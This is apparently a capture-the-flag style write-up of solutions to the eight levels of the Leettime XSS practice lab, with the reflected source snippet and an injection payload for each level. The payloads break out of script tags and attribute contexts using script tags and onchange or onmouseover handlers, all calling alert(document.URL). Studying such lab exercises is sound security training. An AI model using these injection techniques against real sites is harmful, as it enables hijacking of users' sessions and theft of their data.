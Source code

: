 # Leettime

URL: http://leettime.net/xsslab1

## Lab Solutions

> To check for an injection point I have used `tipsy` as an input parameter.

- [Level 1](http://leettime.net/xsslab1/chalg1.php)

    **Vulnerable Code :** 

    ```jsx
    <center>cannot find tipsy</center>
    ```

    Now as you can see, this is simply reflecting the input, and thus we can use our most basic payload. 

    - **Payload :**

        ```jsx
        <script> alert(document.URL) </script>
        ```

- [Level 2](http://leettime.net/xsslab1/sta_ge2.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value=tipsy></input>
    ```

    Now as you can see, the input is being loaded inside the input tag. So naturally we can try to skip over the input tag using the following payload.

    - **Payload :**

        ```jsx
        ></input><script> alert(document.URL) </script>
        ```

- [Level 3](http://leettime.net/xsslab1/stg_3.php)

    **Vulnerable Code :** 

    ```jsx
    <font size=3>Enter Your Name here : <input type="text" name="name" value="tipsy"></input>
    ```

    Now as you can see, the input is being loaded inside the input tag, but along with a ' " '  . So naturally, we can try to skip over the input tag using the following payload.

    - **Payload :**

        ```jsx
        "></input><script> alert(document.URL) </script>
        ```

- [Level 4](http://leettime.net/xsslab1/chlng_004.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    This one is a slight modification over the last one in a way that " was replaced with '. we can bypass this and create our payload in the same way.

    - **Payload :**

        ```jsx
        '></input><script> alert(document.URL) </script>
        ```

- [Level 5](http://leettime.net/xsslab1/chl05.php)

    **Vulnerable Code :** 

    ```jsx
    <script>var search_str="tipsy";</script>
    ```

    In this one, as we can see `tipsy` occurs inside a script tag. hence we will need to close the script tag first and then inject our basic payload.

    - **Payload :**

        ```jsx
        ";</script><script> alert(document.URL) </script>
        ```

- [Level 6](http://leettime.net/xsslab1/ch__006_.php)

    **Vulnerable Code :** 

    ```jsx
    <script>var search_str='tipsy';</script>
    ```

    This is just a slight modification over the last one, and hence the payload is easier to write.

    - **Payload :**

        ```jsx
        ';</script><script> alert(document.URL) </script>
        ```

- [Level 7](http://leettime.net/xsslab1/ch_7_stage.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    This one again looks like a basic one, but this time when we try to inject it with `'></input><script> alert(document.URL)</script>` , it doesn't work, and the source code shows 

    `<input type="text" name="name" value=''</input<script document.URL </script'></input>`

    This means that we need to exploit some functionality used by input tag.

    After some research , `on change` can be added to inject the payload.

    - **Payload :**

        ```jsx
        ' onchange='alert(document.URL)'
        ```

- [Level 8](http://leettime.net/xsslab1/stage--08.php)

    **Vulnerable Code :** 

    ```jsx
    <input type="text" name="name" value='tipsy'></input>
    ```

    In this the input is being tokenized, and trying out all the previous payloads doesn't work.

    So always remember to check all the parameters, 

    In this case, let's see the request that is being sent.

    [`http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search`](http://leettime.net/xsslab1/stage--08.php?name=tipsy&submit=search)

    and we have already seen that name parameter is not vulnerable.

    Let's try to change the value of `submit`` parameter and check if it is reflecting !

    New request - 

    [`http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy`](http://leettime.net/xsslab1/stage--08.php?name=hello&submit=tipsy)

    **Vulnerable Code :**

    ```python
    <input type="submit" name="submit" value="tipsy">
    ```

    Now let's try to build the payload with mouseonover 

    - **Payload :**

        ```jsx
        " onmouseover="alert(document.URL);
        ```


## And we are done !!

![](assets/Screenshot_from_2020-03-31_16-51-46.png)